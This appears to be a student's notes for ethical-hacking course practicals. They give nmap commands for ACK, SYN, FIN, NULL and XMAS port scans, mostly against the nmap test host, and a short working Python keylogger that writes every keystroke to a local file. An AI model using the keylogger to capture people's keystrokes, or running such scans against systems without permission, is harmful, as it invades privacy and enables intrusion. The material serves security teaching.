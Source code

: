 EH practicals:

practical 4:Using Nmap scanner to perform port scanning of various
forms – ACK, SYN, FIN, NULL, XMAS.

1)ACK -sA (TCP ACK scan)
 nmap -sA -T4 scanme.nmap.org

2)SYN (Stealth) Scan (-sS) 
nmap -p22,113,139 scanme.nmap.org

3)FIN Scan (-sF) 
nmap -sF -T4 para

4)NULL Scan (-sN)
nmap -sN -p 22 scanme.nmap.org

5)XMAS Scan (-sX) 
nmap -sX -T4 scanme.nmap.org


practical 9:
Create a simple keylogger using Python.

from pynput.keyboard import Key, Listener
log_file_path = "Downloads/keylog.txt"
def write_to_log(key):
    with open(log_file_path, "a") as f:       
        f.write(str(key))        
        if key == Key.enter:
            f.write("\n")
def on_press(key):
    write_to_log(key)
def on_release(key):
    if key == Key.esc:
        return False
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
